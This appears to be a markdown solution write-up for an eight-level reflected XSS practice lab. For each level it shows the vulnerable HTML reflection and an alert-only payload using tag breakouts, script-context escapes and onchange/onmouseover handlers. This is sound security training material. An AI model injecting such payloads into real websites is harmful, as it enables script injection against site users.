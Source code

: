 # Leettime

URL: http://leettime.net/xsslab1

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

- [Level 1](http://leettime.net/xsslab1/chalg1.php)

    **Vulnerable Code :** 

    ```jsx
    <center>cannot find tipsy</center>
    ```

    Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

    - **Payload :**

        ```jsx
        <script> alert(document.URL) </script>
        ```

- [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value=tipsy></input>
    ```

    Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        ></input><script> alert(document.URL) </script>
        ```

- [Level 3](http://leettime.net/xsslab1/stg_3.php)

    **Vulnerable Code :** 

    ```jsx
    <font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
    ```

    Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        "></input><script> alert(document.URL) </script>
        ```

- [Level 4](http://leettime.net/xsslab1/chlng_004.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

    - **Payload :**

        ```jsx
        '></input><script> alert(document.URL) </script>
        ```

- [Level 5](http://leettime.net/xsslab1/chl05.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str="tipsy";</script>
    ```

    In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

    - **Payload :**

        ```jsx
        ";</script><script> alert(document.URL) </script>
        ```

- [Level 6](http://leettime.net/xsslab1/ch__006_.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str='tipsy';</script>
    ```

    This is just a slight modification over the last one, and hence the payload is easier to write.

    - **Payload :**

        ```jsx
        ';</script><script> alert(document.URL) </script>
        ```

- [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

    `<input type="text" name="name" value=''</input<script document.URL </script'></input>`

    This means that we need to exploit some functionality used by input tag.

    After some research , `on change` can be added to inject the payload.

    - **Payload :**

        ```jsx
        ' onchange='alert(document.URL)'
        ```

- [Level 8](http://leettime.net/xsslab1/stage--08.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    In this the input is being tokenized, and trying out all the previous payloads doesn't work.

    So always remember to check all the parameters, 

    In this case, let's see the request that is being sent.

    [`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

    and we have already seen that name parameter is not vulnerable.

    Let's try to change the value of `submit`` parameter and check if it is reflecting !

    New request - 

    [`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

    **Vulnerable Code :**

    ```python
    <input type="submit" name="submit" value="tipsy">
    ```

    Now let's try to build the payload with mouseonover 

    - **Payload :**

        ```jsx
        " onmouseover="alert(document.URL);
        ```

- 

## And we are done !!

![Leettime%204bf45d35493d4f7db7f8cef6d1dd4a3e/Screenshot_from_2020-03-31_16-51-46.png](Leettime%204bf45d35493d4f7db7f8cef6d1dd4a3e/Screenshot_from_2020-03-31_16-51-46.png)